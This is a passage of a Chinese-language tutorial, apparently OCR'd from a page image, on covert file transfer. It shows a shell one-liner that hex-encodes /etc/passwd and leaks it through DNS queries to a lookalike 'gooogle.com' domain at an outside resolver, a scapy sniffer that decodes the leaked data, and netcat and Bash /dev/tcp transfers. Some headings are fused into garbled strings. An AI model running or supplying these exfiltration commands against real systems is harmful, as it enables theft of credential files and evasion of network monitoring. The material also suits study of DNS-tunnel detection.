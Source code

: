 执行方法:

```
python3 ping_receiver.py
```

### 使用 dig 命令进行文件传输

/etc/passwdSenderReciver

发送端:

```
xxd -p -c 31 /etc/passwd | while read line; do dig @172.16.1.100 +short +tries=1 +time=1 $line.gooogle.com; done
```

接收端:

以下代码使用了 python 的 `scapy` 模块，需要手动安装

代码保存到 `dns_reciver.py` 文件中

```
try:
    from scapy.all import *
except:
    print("Scapy not found, please install scapy: pip install scapy")

def process_packet(pkt):
    if pkt.haslayer(DNS):
        domain = pkt[DNS][DNSQR].qname.decode('utf-8')
        root_domain = domain.split('.')[1]
        if root_domain.startswith('gooogle'):
            print(f'{bytearray.fromhex(domain[:-13]).decode("utf-8")}', flush=True, end='')

sniff(iface="eth0", prn=process_packet)
```

运行方法:

```
python3 dns_reciver.py
```

### 使用 NetCat 进行文件传输

1.txtA:10.10.10.100B:10.10.10.200

接受端:

```
nc -l -p 1337 > 1.txt
```

发送端：

```
cat 1.txt | nc -l -p 1337
```

或者

```
nc 10.10.10.200 1337 < 1.txt
```

在极端环境下，如果接受端没有 nc 可以使用 Bash 的 /dev/tcp 接收文件:

```
cat < /dev/tcp/10.10.10.200/1337 > 1.txt
```
